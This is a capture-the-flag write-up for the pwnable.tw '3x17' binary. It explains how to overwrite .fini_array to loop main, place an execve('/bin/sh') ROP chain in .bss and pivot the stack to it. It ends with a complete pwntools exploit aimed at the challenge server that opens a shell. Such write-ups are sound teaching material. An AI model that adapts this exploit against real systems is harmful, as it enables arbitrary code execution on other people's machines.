





# 3x17 [pwnable.tw](pwnable.tw)

File & checksec:



the program itself is quite simple, the main logic is just writing `0x18` bytes to **any** address



the stripped function `sub_40EE80` is just `strtoll` (you can test it via inputs) 

it's quite obvious that `0x18` bytes doesn't fit our `execve` ROP, and we need to write `/bin/sh` somewhere too, so we need to loop this _write-what-where_ sequence until we can execute our ROP chain

the challenge name `3x17` is just "exit" in leetspeak, giving us a hint about the exit of the program. doing further research on the program exit routine, we found two interesting elf sections: `.fini` and `.fini_array`

these sections contain pointers to cleanup functions, global destructors and unregistration routines executed automatically just before the application terminates. when a program terminates, whether by returning from `main()` or calling `exit()`, the dynamic linker/loader `ld.so` and `glibc` execute these routines in this specific order:
1.  `__cxa_atexit()`: handles object destructors and functions registered by the user at runtime
2.  `FINI_ARRAY`: iterates through an array of function pointers in the `.fini_array` and executes them in **reverse order** of how they were initialized
3.  `_fini`: calls legacy cleanup code stored inside the `.fini` section
4.  `_dl_fini`: executes cleanup hooks for shared libraries dynamically linked to the binary
5.  `syscall`: triggers the `SYS_exit` syscall to return the status code to the linux kernel



if you look carefully, you'll see that `.fini` section isn't writable (marked without **W**), but `.fini_array` is!!


- `.fini_array` address: `0x004b40f0`
- `.fini_array` entry0 (first 8 bytes): `0x0000000000401b00`
- `.fini_array` entry1 (last 8 bytes): `0x0000000000401580`

now the path is pretty straight forward: abuse the `.fini_array` section with our _write-what-where_ primitive, write our payload somewhere in our binary (probably `.bss`) and stack pivot there

there's a tiny detail about this, that being the comparison that `main()` does before letting us play 


we can ignore this, because it is treating the value at `cs:byte_4B9330` as an `unsigned byte`, so it'll keep incrementing until it wraps around, returning its value to `1` and executing our primitive. 

another detail is that the function pointers in `.fini_array` are executed in reverse order, we need to put our main furthest in this section (it's at offset `0x08`). we need to find another crucial address to overwrite `entry0`, because when it executes there, the routine will see that it executed all functions from `.fini_array` and will exit. we will use the routine address itself, to keep it on a loop xD

let's see what our layout looks like:

```
0x0000000000401c4b : leave ; ret
0x0000000000402ba9 : pop rsp ; ret
0x0000000000406c30 : pop rsi ; ret
0x0000000000401696 : pop rdi ; ret
0x0000000000446e35 : pop rdx ; ret
0x000000000041e4af : pop rax ; ret
0x00000000004022b4 : syscall
0x0000000000401b6d : main address
0x00000000004b40f0 : .fini_array
0x0000000000402960 : destructor routine

0x4b40f0: (.fini_array)
0x0.        0x00402960 (destructor routine)
0x8.        0x00401b6d (main)

.bss:
0x0.        "/bin/sh\x00"
0x8.        0x00401696  ;pop rdi ; ret
0x10.       .bss
0x18.       0x00406c30  ;pop rsi ; ret
0x20.       0
0x28.       0x00446e35  ;pop rdx ; ret
0x30.       0
0x38.       0x0041e4af  ;pop rax ; ret
0x40.       59
0x48.       0x004022b4  ;syscall

0x4b40f0: (.fini_array)
0x0.        0x00401c4b  ;leave ; ret
0x8.        0x00402ba9  ;pop rsp; ret
0x10.       .bss+8
```

note that we stack pivoted at the last step because we needed to trigger our ROP chain at `.bss+8` (`+8` because we've written `/bin/sh\x00` at offset `+0`)

if we look at GDB after the ROP chain write, `RBP` will point perfectly to `.fini_array` address, so we use the gadget `leave ; ret` to make `RSP` point to `.fini_array`, then it'll pop the value at `RSP` to `RBP` and then it'll execute `ret`, which will pop our gadget `pop rsp ; ret` into `RIP` and `RSP` will point exactly into our ROP chain

full exploit:
```py
from pwn import *

elf = ELF("./3x17")

context.binary = elf
context.terminal = "kitty @ launch --location=vsplit --cwd=current".split()
context.log_level = 'debug'

def conn():
if args.REMOTE:
p = remote("chall.pwnable.tw", 10105)
else:
if args.GDB:
p = gdb.debug([elf.path], aslr=True, api=False, gdbscript="""
b *0x401b6d
""")
else:
p = process([elf.path])

return p

def write_payload(p, address, data):
for i in range(0, len(data), 24):
chunk = data[i:i+24]
real_addr = address + i

p.sendafter(b"addr:", str(real_addr).encode())
p.sendafter(b"data:", chunk)

def main():
p = conn()

# pwn it
leave_ret = 0x0000000000401c4b # leave ; ret
pop_rsp = 0x0000000000402ba9 # pop rsp ; ret
pop_rsi = 0x0000000000406c30 # pop rsi ; ret
pop_rdi = 0x0000000000401696 # pop rdi ; ret
pop_rdx = 0x0000000000446e35 # pop rdx ; ret
pop_rax = 0x000000000041e4af # pop rax ; ret
syscall = 0x00000000004022b4 # syscall
main = 0x0000000000401B6D

fini_array = 0x004b40f0
destructor_routine = 0x402960

payload = p64(destructor_routine) 
payload += p64(main)

write_payload(p, fini_array, payload)

target = elf.bss()

write_payload(p, target, b"/bin/sh\x00".ljust(24, b"\x00"))

target += 8

payload = p64(pop_rdi)
payload += p64(elf.bss())
payload += p64(pop_rsi)
payload += p64(0)
payload += p64(pop_rdx)
payload += p64(0)
payload += p64(pop_rax)
payload += p64(59)
payload += p64(syscall)

write_payload(p, target, payload)

payload = p64(leave_ret)
payload += p64(pop_rsp)
payload += p64(target)

write_payload(p, fini_array, payload)

p.interactive()

if __name__ == '__main__':
main()
